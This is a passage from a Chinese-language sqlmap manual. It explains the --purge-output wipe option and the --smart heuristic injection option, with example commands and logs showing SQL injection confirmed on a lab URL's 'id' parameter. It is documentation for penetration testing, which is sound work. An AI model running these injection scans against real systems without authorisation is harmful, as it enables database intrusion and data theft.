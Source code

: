 有时需要删除结果文件，而不被恢复，可以使用此参数，原有文件将会被随机的一些文件覆盖。

例如：

```
$ python sqlmap.py --purge-output -v 3
[...]
[xx:xx:55] [INFO] purging content of directory '/home/user/sqlmap/output'...
[xx:xx:55] [DEBUG] changing file attributes
[xx:xx:55] [DEBUG] writing random data to files
[xx:xx:55] [DEBUG] truncating files
[xx:xx:55] [DEBUG] renaming filenames to random values
[xx:xx:55] [DEBUG] renaming directory names to random values
[xx:xx:55] [DEBUG] deleting the whole directory tree
[...]

```

### 启发式判断注入

参数：--smart

有时对目标非常多的URL进行测试，为节省时间，只对能够快速判断为注入的报错点进行注入，可以使用此参数。

例子：

```
$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?ca=17&user=foo&id=1" --batch --smart
[...]
[xx:xx:14] [INFO] testing if GET parameter 'ca' is dynamic
[xx:xx:14] [WARNING] GET parameter 'ca' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'ca' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'ca'
[xx:xx:14] [INFO] testing if GET parameter 'user' is dynamic
[xx:xx:14] [WARNING] GET parameter 'user' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'user' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'user'
[xx:xx:14] [INFO] testing if GET parameter 'id' is dynamic
[xx:xx:14] [INFO] confirming that GET parameter 'id' is dynamic
[xx:xx:14] [INFO] GET parameter 'id' is dynamic
[xx:xx:14] [WARNING] reflective value(s) found and filtering out
[xx:xx:14] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:14] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] Y
[xx:xx:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL inline queries'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[xx:xx:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL > 5.0.11 AND time-based blind' injectable 
[xx:xx:24] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[xx:xx:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other potential injection technique found
[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:24] [INFO] target URL appears to have 3 columns in query
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```